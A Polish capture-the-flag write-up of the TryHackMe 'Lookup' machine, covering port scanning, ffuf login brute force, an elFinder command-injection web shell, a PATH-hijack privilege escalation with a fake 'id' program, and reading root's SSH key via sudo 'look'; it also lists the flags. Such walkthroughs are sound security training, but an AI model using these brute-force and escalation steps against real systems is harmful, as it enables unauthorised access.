# **Nmap Results**
```text
# Nmap 7.95 scan initiated Thu Sep 25 14:54:03 2025 as: /usr/lib/nmap/nmap --privileged -Pn -sC -sV -p- --min-rate=2000 -oN nmap_scan.txt 10.10.7.202
Nmap scan report for 10.10.7.202
Host is up (0.040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:19:97:98:3b:c6:6a:e2:61:8b:b9:3f:80:c5:18:ec (RSA)
|   256 9a:fb:7c:be:2e:f8:f1:0e:5b:d5:8d:37:70:20:6d:70 (ECDSA)
|_  256 00:36:d9:6d:be:9f:20:9e:24:f2:64:46:ca:b7:5e:99 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://lookup.thm
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 25 14:54:46 2025 -- 1 IP address (1 host up) scanned in 43.61 seconds
```

<br>
# **Service Enumeration**

## **TCP/80

Aplikacja internetowa


Próba zalogowania zwraca następującą odpowiedź



Enumeracja wirtualnych hostów pokazała tylko istnienie subdomeny "www"
Skan plików na serwerze wykazał istnienie podstron `/index.php` oraz `/login.php`



Próba akatów SQL Injection na ekran logowania nie powiodła się.

Enumeracja nazw użytkownika wykazała, że dla nazwy użytkownika "admin" jest inna odpowiedź serwera.
```
ffuf -w /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -X POST -H "Content-Type: application/x-www-form-urlencoded"
 -u http://lookup.thm/login.php -d 'username=FUZZ&password=asd'
```




Widok odpowiedzi serwera dla nazwy "admin"



Jak widać odpowiedź się różni, nie ma nagłówka `Vary: Accept-Encoding` i sama odpowiedź zawiera tylko informację o złym haśle.

Następnie bruteforce na konto "admin" wykazało inną odpowiedź dla hasła "password123"
```
ffuf -w /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -u http://lookup.thm/login.php -d 'username=admin&password=FUZZ' -fs 62
```



Co ciekawe to nie jest hasło do tego konta, tylko powoduje otrzymanie odpowiedzi jak dla innej nazwy użytkowinika, że nazwa użytkownika i hasło są niepoprawne a nie samo hasło.

Dalej próba skanu nazw użytkownika pod hasło "password123" wykazała że dla użytkownika "jose" następuje przekierowanie (302).

Po zalogowaniu się na tego użytkownika zostajemy przekierowani na pod domenę files.lookup.thm
Kolejno dodając wpis do pliku `/etc/hosts` otrzymujemy dostęp do strony


Pliki na stronie zawierają losowe słowa wyglądające jak hasła. Pobrałem wszystkie pliki i zrobiłem z nich jeden "słownik" poleceniem
```
cat ./*.txt > all.txt
```
Ciekawy był plik thislogin.txt który zawierał dane logowania użytkownika jose i plik credentials.txt który zawiera dane logowania `think : nopassword` jednak nie działają one ani na inne konto na stronie ani na ssh. Dla użytkownika `think` żadne z haseł w plikach nie zadziałało na stronie. Dla konta `admin` również.


## **TCP/22

SSH - wszelkie próby zalogowania się danymi z plików na stronie internetowej nie powiodły się

# **Exploit**

Sprawdzając wersję aplikacji na stonie okazało się że "elFinder" w wersji 2.1.47 jest podatny na "Command Injection" - [exploit](https://www.exploit-db.com/exploits/46481)
Wgranie exploita na stronę daje dostęp do web shell, wystarczy mieć plik jpg z nazwą SecSignal.jpg



Za pomocą nc mkfifo z URL Encode storzyłem reverse shell.





# **Post-Exploit Enumeration**
## **Operating Environment**
### OS & Kernel

```
- "uname -a" 
  Linux ip-10-10-79-102 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
- "cat /etc/os-release" 
	NAME="Ubuntu"
	VERSION="20.04.6 LTS (Focal Fossa)"
	ID=ubuntu
	ID_LIKE=debian
	PRETTY_NAME="Ubuntu 20.04.6 LTS"
	VERSION_ID="20.04"
	HOME_URL="https://www.ubuntu.com/"
	SUPPORT_URL="https://help.ubuntu.com/"
	BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
	PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
	VERSION_CODENAME=focal
	UBUNTU_CODENAME=focal
```


## **Users and Groups**

### Local Users

```text
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
think:x:1000:1000:,,,:/home/think:/bin/bash
ssm-user:x:1001:1001::/home/ssm-user:/bin/sh
ubuntu:x:1002:1003:Ubuntu:/home/ubuntu:/bin/bash
```


# **Privilege Escalation** - think 

Napisałem z pomocą chata-gpt program do bruteforce na su. Próbowałem wykorzystać wcześniej zdobyte hasła ze strony elFinder i zalogować się na użytkownika think, niestety żadne z haseł nie było prawidłowe.

Szukając plików z SUID znalazłem `/usr/sbin/pwm` które próbuje uruchomić polecenie id w celu weryfikacji zalogowanego użytkownika a następnie próbuje wypisać dane z pliku /home/nazwa_użytkownika/.passwords.



Można wykorzystać to do podmiany zmiennej środowiskowej PATH i użycia własnego programu id który poda id innego użytkownika

Dodanie `/tmp` do $PATH  :
`export PATH=/tmp:$PATH`


Na cel wgrano prosty program napisany w C który zwraca na sztywno id użytkownika systemu think:
```C
#include<unistd.h>
#include<stdlib.h>
#include<stdio.h> 
int main(){
        printf("uid=1000(think) gid=1000(think) groups=1000(think)");
        return 0;
}
```

Teraz uruchomienie programu `pwm` spowoduje w pierwszej kolejności wykorzystanie mojego programu id i zwróci zawartośc pliku .passwords w folderze domowym użytkownika `think`



Następnie wykorzystałem wcześniej napisany [program w pythone](remote-cyberka/Raporty_BOXY_CTF/Boxy/TryHackMe/Lookup/suBF.py) do ataku bruteforce z tymi hasłami na su w celu wejścia na konto think.



Zalogowanie na konto `think:josemario.AKA(think)`:



W folderze domowym użytkownika think w pliku `users.txt` znajduje się pierwsza flaga.



### Current User

```text
uid=1000(think) gid=1000(think) groups=1000(think)
```

# **Privilege Escalation** - root 

`sudo -l` pokazuje że użytkownik think może odpalić program `look` z prawami sudo


Program `look` pozwala przeczytać dane z plików. Można go wykorzystać do zdobycia klucza prywatnego ssh do konta root.



Zalogowanie na root przez ssh z powyższym kluczem



Ostatnia flaga znajduje się w pliku root.txt w folderze `/root`.


# **Flags**

### User

```text
38375fb4dd8baa2b2039ac03d92b820e
```

### Root

```text
5a285a9f257e45c68bb6c9f9f57d18e8
```


<br>
<br>
